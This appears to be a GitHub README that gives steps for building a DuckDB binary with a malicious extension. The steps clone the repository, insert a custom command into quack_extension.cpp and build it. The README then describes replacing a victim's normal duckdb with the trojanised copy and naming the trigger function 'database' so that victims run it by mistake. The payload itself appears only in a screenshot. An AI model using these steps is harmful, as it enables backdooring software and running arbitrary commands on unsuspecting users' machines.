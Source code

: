 # Install vcpkg
```shell
git clone https://github.com/Microsoft/vcpkg.git
./vcpkg/bootstrap-vcpkg.sh
export VCPKG_TOOLCHAIN_PATH=`pwd`/vcpkg/scripts/buildsystems/vcpkg.cmake
```

## Clone the malicious extension
```shell
git clone --recurse-submodules https://github.com/Tu0Laj1/database_test.git
cd database_test
```

### Modify file
Modify src/quark_extension.cpp,modify the file content to a custom malicious command,and modify the extension function name
```sh
vim src/quack_extension.cpp
```
<img width="422" alt="企业微信截图_17032404145324" src="https://github.com/Tu0Laj1/database_test/assets/154296962/c727d9db-3acd-4bde-b92b-cc0c7ce07bcb">

### Build the malicious extension
Now to build the malicious extension, run:
```sh
make
```

## Running the malicious duckdb
/database_test/build/release/duckdb, a malicious duckdb containing malicious extension programs, can be copied and run on any machine. Attackers can replace the victim's normal duckdb with this malicious duckdb
```sh
cd database_test
./build/release/duckdb
```

### Running the malicious extension
When the victim runs a malicious duckdb and the executed SQL statement contains the function name defined by the attacker, the malicious command will be executed. (Why did I choose 'database'? Because 'database/databases' is a function included in many other databases, but it is not available in duckdb, so the probability of victims mistakenly triggering malicious commands will be increased.)
```sh
select database();
```
<img width="465" alt="企业微信截图_1703465596446" src="https://github.com/Tu0Laj1/database_test/assets/154296962/3c1ecb9c-f531-4355-b8e4-be908ac19179">

Of course, when you place this duckdb containing malicious extensions on a Linux host to run, you may need to install additional dependency components, such as GLIBC, etc

